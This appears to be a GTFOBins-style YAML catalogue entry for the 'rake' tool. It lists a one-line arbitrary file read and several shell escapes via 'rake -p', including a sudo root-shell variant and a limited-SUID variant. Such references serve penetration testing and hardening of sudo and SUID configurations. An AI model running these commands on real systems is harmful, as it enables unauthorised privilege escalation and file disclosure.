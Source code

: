 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file-to-read
        rake -f $LFILE
  shell:
    - code: rake -p '`/bin/sh 1>&0`'
  sudo:
    - code: sudo rake -p '`/bin/sh 1>&0`'
  limited-suid:
    - code: ./rake -p '`/bin/sh 1>&0`'
---
```

